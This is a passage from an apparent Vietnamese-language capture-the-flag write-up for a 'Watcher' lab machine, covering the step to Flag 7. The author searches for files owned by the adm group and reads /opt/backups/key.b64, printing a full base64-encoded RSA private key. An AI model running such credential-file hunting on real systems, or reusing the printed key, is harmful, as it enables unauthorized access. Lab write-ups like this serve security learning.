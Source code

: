 ### Flag 7

Tôi không còn dùng được `sudo -l` nữa vì cần password. Tuy nhiên tôi để ý thấy user **will** thuộc group **adm**. Tôi sẽ tìm các file thuộc group này

```python
will@watcher:/home/will$ find / -type f -group adm 2>/dev/null
find / -type f -group adm 2>/dev/null
/opt/backups/key.b64
/var/log/auth.log
/var/log/kern.log
/var/log/syslog
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/apache2/other_vhosts_access.log
/var/log/cloud-init.log
/var/log/unattended-upgrades/unattended-upgrades-dpkg.log
/var/log/apt/term.log
```

Có 1 file key ở đây

```python
will@watcher:/home/will$ cat /opt/backups/key.b64
cat /opt/backups/key.b64
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBelBhUUZvbFFx
OGNIb205bXNzeVBaNTNhTHpCY1J5QncrcnlzSjNoMEpDeG5WK2FHCm9wWmRjUXowMVlPWWRqWUlh
WkVKbWRjUFZXUXAvTDB1YzV1M2lnb2lLMXVpWU1mdzg1ME43dDNPWC9lcmRLRjQKanFWdTNpWE45
ZG9CbXIzVHVVOVJKa1ZuRER1bzh5NER0SXVGQ2Y5MlpmRUFKR1VCMit2Rk9ON3E0S0pzSXhnQQpu
TThrajhOa0ZrRlBrMGQxSEtIMitwN1FQMkhHWnJmM0RORm1RN1R1amEzem5nYkVWTzdOWHgzVjNZ
T0Y5eTFYCmVGUHJ2dERRVjdCWWI2ZWdrbGFmczRtNFhlVU8vY3NNODRJNm5ZSFd6RUo1enBjU3Jw
bWtESHhDOHlIOW1JVnQKZFNlbGFiVzJmdUxBaTUxVVIvMndOcUwxM2h2R2dscGVQaEtRZ1FJREFR
QUJBb0lCQUhtZ1RyeXcyMmcwQVRuSQo5WjVnZVRDNW9VR2padjdtSjJVREZQMlBJd3hjTlM4YUl3
YlVSN3JRUDNGOFY3cStNWnZEYjNrVS80cGlsKy9jCnEzWDdENTBnaWtwRVpFVWVJTVBQalBjVU5H
VUthWG9hWDVuMlhhWUJ0UWlSUjZaMXd2QVNPMHVFbjdQSXEyY3oKQlF2Y1J5UTVyaDZzTnJOaUpR
cEdESkRFNTRoSWlnaWMvR3VjYnluZXpZeWE4cnJJc2RXTS8wU1VsOUprbkkwUQpUUU9pL1gyd2Z5
cnlKc20rdFljdlk0eWRoQ2hLKzBuVlRoZWNpVXJWL3drRnZPRGJHTVN1dWhjSFJLVEtjNkI2CjF3
c1VBODUrdnFORnJ4ekZZL3RXMTg4VzAwZ3k5dzUxYktTS0R4Ym90aTJnZGdtRm9scG5Gdyt0MFFS
QjVSQ0YKQWxRSjI4a0NnWUVBNmxyWTJ4eWVMaC9hT0J1OStTcDN1SmtuSWtPYnBJV0NkTGQxeFhO
dERNQXo0T3FickxCNQpmSi9pVWNZandPQkh0M05Oa3VVbTZxb0VmcDRHb3UxNHlHek9pUmtBZTRI
UUpGOXZ4RldKNW1YK0JIR0kvdmoyCk52MXNxN1BhSUtxNHBrUkJ6UjZNL09iRDd5UWU3OE5kbFF2
TG5RVGxXcDRuamhqUW9IT3NvdnNDZ1lFQTMrVEUKN1FSNzd5UThsMWlHQUZZUlhJekJncDVlSjJB
QXZWcFdKdUlOTEs1bG1RL0UxeDJLOThFNzNDcFFzUkRHMG4rMQp2cDQrWThKMElCL3RHbUNmN0lQ
TWVpWDgwWUpXN0x0b3pyNytzZmJBUVoxVGEybzFoQ2FsQVF5SWs5cCtFWHBJClViQlZueVVDMVhj
dlJmUXZGSnl6Z2Njd0V4RXI2Z2xKS09qNjRiTUNnWUVBbHhteC9qeEtaTFRXenh4YjlWNEQKU1Bz
K055SmVKTXFNSFZMNFZUR2gydm5GdVR1cTJjSUM0bTUzem4reEo3ZXpwYjFyQTg1SnREMmduajZu
U3I5UQpBL0hiakp1Wkt3aTh1ZWJxdWl6b3Q2dUZCenBvdVBTdVV6QThzOHhIVkk2ZWRWMUhDOGlw
NEptdE5QQVdIa0xaCmdMTFZPazBnejdkdkMzaEdjMTJCcnFjQ2dZQWhGamkzNGlMQ2kzTmMxbHN2
TDRqdlNXbkxlTVhuUWJ1NlArQmQKYktpUHd0SUcxWnE4UTRSbTZxcUM5Y25vOE5iQkF0aUQ2L1RD
WDFrejZpUHE4djZQUUViMmdpaWplWVNKQllVTwprSkVwRVpNRjMwOFZuNk42L1E4RFlhdkpWYyt0
bTRtV2NOMm1ZQnpVR1FIbWI1aUpqa0xFMmYvVHdZVGcyREIwCm1FR0RHd0tCZ1FDaCtVcG1UVFJ4
NEtLTnk2d0prd0d2MnVSZGo5cnRhMlg1cHpUcTJuRUFwa2UyVVlsUDVPTGgKLzZLSFRMUmhjcDlG
bUY5aUtXRHRFTVNROERDYW41Wk1KN09JWXAyUloxUnpDOUR1ZzNxa3R0a09LQWJjY0tuNQo0QVB4
STFEeFUrYTJ4WFhmMDJkc1FIMEg1QWhOQ2lUQkQ3STVZUnNNMWJPRXFqRmRaZ3Y2U0E9PQotLS0t
LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=
```
